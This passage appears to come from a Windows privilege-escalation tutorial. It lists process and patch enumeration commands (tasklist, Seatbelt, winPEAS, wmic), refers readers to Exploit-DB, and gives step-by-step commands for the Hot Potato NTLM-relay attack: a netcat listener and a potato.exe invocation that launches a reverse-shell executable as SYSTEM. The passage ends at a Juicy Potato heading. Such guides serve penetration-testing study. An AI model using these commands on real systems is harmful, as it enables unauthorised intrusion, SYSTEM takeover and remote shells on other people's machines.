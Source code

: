 Manually enumerate all running programs:

```
tasklist /v
```

We can also use Seatbelt to search for nonstandard processes:

```
.\seatbelt.exe NonstandardProcesses
```

winPEAS also has this ability (note the misspelling):

```
.\winPEASany.exe quiet procesinfo
```

We can enumerate installed applications with wmic:

```
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn
```

### Exploit-DB

Once you've found a process that interests you, try to figure out which version it is. You can also check the config or text files in the Program Files directory, as well as executing the executable with /? or -h. To find a corresponding exploit, use Exploit-DB. Some exploits include instructions, while others need you to compile and run code.

## Hot Potato

The term "Hot Potato" refers to an attack that combines a spoofing assault with an NTLM relay attack in order to achieve SYSTEM rights. The technique convinces Windows to use NTLM to authenticate as the SYSTEM user to a bogus HTTP server. To acquire command execution, the NTLM credentials are subsequently sent to SMB. This technique is capable of infecting Windows 7, 8, and early versions of Windows 10, as well as their server counterparts.

### Hot Potato Privilege Escalation

1\. Copy the potato.exe exploit executable over to Windows.&#x20;

2\. Start a listener on your host (e.g Kali or Parrot):

```
nc -lvnp <PORT>
```

3\. Run the potato exploit:

```
.\potato.exe -ip 192.168.10.10 -cmd "C:\Users\Public\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```

4\. Wait for a Windows Defender update, or trigger one manually

## Juicy Potato

